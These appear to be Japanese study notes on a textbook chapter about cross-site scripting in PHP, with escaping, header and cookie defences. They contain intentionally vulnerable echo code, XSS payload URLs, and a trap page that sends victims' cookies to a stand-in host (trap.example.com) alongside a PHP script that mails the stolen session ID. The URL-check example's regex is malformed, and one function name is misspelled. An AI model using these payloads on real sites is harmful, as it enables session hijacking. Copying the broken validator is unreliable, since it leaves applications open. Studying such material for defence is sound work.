

# 表示処理に伴う問題

## 4.3.1クロスサイトスクリプティング（基本編）

### 概要

XSS脆弱性の影響

* サイト利用者のブラウザ上でスクリプト実行され、クッキー値を盗まれ、利用者がなりすましの被害にあう
* ブラウザ上でスクリプトを実行させられ、サイト利用者の権限でWebアプリケーションの機能を悪用される
* Webサイト上に偽の入力フォームが表示され、フィッシングにより個人情報を盗まれる

### 攻撃手法と影響

#### XSSによるクッキー値の盗み出し

* 正常系（検索値がGETで送られてくる）

  http://example.jp/43/43-001.php?keyword=Haskell

  ```php
  <?php
    session_start();
    // ログインチェック（略）
  ?>
  <body>
  検索キーワード:<?php echo $_GET['keyword']; ?><BR>
  以下略
  </body>
  ```

* 異常系

  http://example.jp/43/43-001.php?keyword=%3Cscript%3Ealert(document.cookie)%3C/script%3E

  

#### 受動的攻撃により別人のクッキー値を盗み出す

罠サイト(43-900.html)

```html
<html><body>
激安商品情報
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>"></iframe>
</body></html>
```

43-901.php

```php
<?php
  mb_language('Japanese');
  $sid = $_GET['sid'];
  mb_send_mail('wasbook@example.jp', '攻撃成功', 'セッションID:' . $sid,
    'From: cracked@trap.example.com');
?>
<body>攻撃成功<br>
<?php echo $sid; ?>
</body>
```


書籍上だと赤枠部分にsidが出るが表示されない。


警告のポップアップを見るとCrossSiteの対策でsidが表示されていないように見える。
メールにもセッションIDはついていなかった。


#### その他のJavaScriptによる攻撃

#### 画面の書き換え

#### 反射型XSSと持続型XSS

上記の3つのコンテンツについては有用性を感じられなかったためメモを記載していない

### XSSの対策

通常（JavaScriptやCSSでない）HTMLについては、文字参照によりエスケープすることがXSS対策の基本となる。

* 要素内容については「＜」と「＆」をエスケープする
* 属性値については、ダブルクォートで囲って、「<」と「”」と「&」をエスケープする

PHPではhtmlspeialchars関数を利用する

```php
string htmlspecialchars(string $string, int $quote_style, string &charset);
```

* $string：変換対象の文字列
* $quote_style：引用符の変換方法
* $charset：文字エンコーディング。”UTF-8","Shift_JIS","EUC-JP"

■使用例

```php
echo htmlspecaialchars($p, ENT_QUOTES, "UTF-8");
```

htmlspecialchars関数が変換対象とする文字

| 変換前 | 変換後  | $quote_styleと変換対象文字 |            |            |
| ------ | ------- | -------------------------- | ---------- | ---------- |
|        |         | ENT_NOQUOTES               | ENT_COMPAT | ENT_QUOTES |
| <      | \&lt;   | 〇                         | 〇         | 〇         |
| >      | \&gt;   | 〇                         | 〇         | 〇         |
| &      | \&amp;  | 〇                         | 〇         | 〇         |
| "      | \&quot; | ×                          | 〇         | 〇         |
| '      | \&#39;  | ×                          | ×          | 〇         |

ENT_QUOTEで統一するのが無難

#### レスポンスの文字エンコーディング指定

Webアプリケーション側で想定している文字エンコーディングとブラウザが想定する文字エンコーディングに差異があると、XSSの原因になりえる。PHPでレスポンスの文字エンコーディングを指定する方法は複数があるが、確実な方法は、header関数を用いる方法

```php
header('Content-Type: text/html; charset=UTF-8');
```

### XSSに対する保険的対策

#### X-XSS-Protection レスポンスヘッダの使用

ブラウザには、XSSフィルタというセキュリティ機能が実装されているものがある。反射型XSSをブラウザが検知し、無害な出力に変更する。
すべてのHTTPレスポンスで以下を出力することを推奨

```http
X-XSS-Protection: 1; mode=block
```

Webサーバー(Apache, nginxなど)の設定でこのヘッダを出力すると簡便。

Apacheの設定（mod_headersが導入されている必要がある）

```http
Header always append X-XSS-Protection: 1; mode=block
```

nginxの設定

```http
add_header X-XSS-Protection: 1; mode=block;
```

####　入力値検証

#### クッキーにHttpOnly属性を付与する

JpavaScriptからのクッキーの読み出しを禁止する。
PHPで開発する場合は、php.iniに以下設定を追加する

```php
session.cookie_httponly = On
```

### 対策のまとめ

必須対策（個別の対策）

* HTMLの要素内容：htmlspecialchars関数によりエスケープ
* 属性値：htmlspecialchars関数によりエスケープし、ダブルクォートで囲む

必須対策（共通対策）

* HTTPレスポンスの文字エンコーディングを明示する

保険的対策

* X-XSS-Protection レスポンスヘッダの使用
* 入力値検証
* クッキーにHttpOnly属性を付与する
* TRACEメソッドの無効化

## 4.3.2 クロスサイトスクリプティング発展編

HTMLエスケープの概要

| 置かれている場所                 | 説明                                             | エスケープの概要                                           |
| -------------------------------- | ------------------------------------------------ | ---------------------------------------------------------- |
| 要素内容（通常のテキスト）       | タグと文字参照が解釈される。<br />「＜」で終端   | 「＜」「＆」を文字参照に                                   |
| 属性値                           | 文字参照が解釈される。<br />引用符で終端         | 属性値を「”」で囲み、「＜」「＆」「"」を文字参照に         |
| 属性値(URL)                      | 同上                                             | URLの形式を検査してから属性値としてのエスケープ            |
| イベントハンドラ                 | 同上                                             | JavaScriptとしてエスケープしてから属性値としてのエスケープ |
| script要素ないでの文字列リテラル | タグも文字参照も解釈されない。<br />「＜」で終端 | JavaScriptとしてエスケープおよび「</」が出現しないよう考慮 |

### href属性やsrc属性のXSS

a要素のhref属性、img要素やframe要素、iframe要素のsrc属性などは、URLを属性値としてとる。このURLを外部から変更できる場合、URLとして**[javascript:JavaScript式]**という形式（javascriptスキーム）で、JavaScriptを起動できる。

43-010.php

```php
<body>
<a href="<?php echo htmlspecialchars($_GET['url']); ?>">ブックマーク</a>
</body>
```

以下URLで呼び出し

```http
http://example.jp/43/43-010.php?url=javascript:alert(document.cookie)
```


エスケープの如何にかかわらずXSSが発現しており、これまでの対策とは別の対策が必要となる。

#### URLを生成する場合の対策

URLとしては以下のいづれかのみを許容するようにチェックする

- http:またはhttps:で始まる絶対URL
- スラッシュ「/」で始まる相対URL

実装例

```php
function check_url($url){
	if (preg_match('/\Ahttps?:/', $url) || preg_match('/\A//', $url)){
		return true;
	} else {
		return false;
	}
}
```

#### リンク先ドメイン名のチェック

* リンク先URLを検証して、URLが外部ドメインである場合はエラーにする
* 外部ドメインへのリンクであることを利用者に注意喚起するためのクッションページを表示する

### JavaScriptの動的生成

#### イベントハンドラのXSS

Webアプリケーションの中には、JavaScriptの一部をサーバー側で動的生成する例がある。典型的には、JavaScriptの文字列リテラルを動的生成するケース。

43-012.php

```
<head>
<script>
function init(name) {
  var span = document.getElementById('name');
  span.textContent = name;
}
</script></head>
<body onload="init('<?php echo htmlspecialchars($_GET['name'], ENT_QUOTES) ?>')">
こんにちは<span id="name"></span>さん
</body>
```

